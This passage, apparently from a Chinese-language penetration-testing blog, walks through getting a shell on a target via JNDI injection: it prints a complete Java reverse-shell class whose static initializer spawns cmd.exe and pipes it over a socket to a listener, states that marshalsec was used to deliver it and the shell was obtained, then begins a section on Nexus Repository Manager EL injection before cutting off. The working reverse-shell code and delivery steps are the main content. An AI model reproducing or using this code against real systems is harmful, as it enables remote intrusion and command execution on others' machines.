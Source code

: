 
### getshell
使用JNDIExploit工具可以打Dnslog，但反弹shell是不支持windows的，内存马写不进去，无回显，最终考虑加载反弹shell的java字节码文件

java的反弹shell代码如下：
```java
public class ReverseShell {
    static {
        try{ 
            String host = "127.0.0.1";
            int port = 6666;
            String cmd = "cmd.exe";
            //String cmd = "/bin/sh";
            Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
            java.net.Socket s = new java.net.Socket(host, port);
            java.io.InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
            java.io.OutputStream po = p.getOutputStream(), so = s.getOutputStream();
            while (!s.isClosed()) {
                while (pi.available() > 0) {
                    so.write(pi.read());
                }
                while (pe.available() > 0) {
                    so.write(pe.read());
                }
                while (si.available() > 0) {
                    po.write(si.read());
                }
                so.flush();
                po.flush();
                Thread.sleep(50);
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                }
            }
            p.destroy();
            s.close(); 
        } catch (Exception e){}
    }
}
```
然后拿marshalsec打
![](https://img-blog.csdnimg.cn/bea3a1bc5bb34e35b2bee2e335f9950b.png)

成功反弹shell，拿下
## Nexus Repository Manager EL表达式注入
近期又遇到一个站，是爬哥发给我的，说很好玩
![](https://img-blog.csdnimg.cn/04006f8b0f2f434c80709f6f2394b0bc.png)
